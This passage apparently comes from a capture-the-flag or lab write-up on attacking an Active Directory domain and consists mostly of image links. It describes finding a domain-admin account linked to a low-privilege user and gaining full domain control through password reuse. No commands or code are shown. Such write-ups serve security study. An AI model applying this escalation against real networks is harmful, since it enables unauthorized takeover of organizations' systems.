

\
We got another user which is Rhys.Garner, but after some enum this user does not has any critical ACLs over objects, BUT there is another interesting thing...



\
While searching garner we can another user who is dom_rgarner and he is a member of Domain Administrators group. So, if we lucky enough, Rhys.Garner uses the same password to that account.



\
Awesome! Now we have full control over all the domain.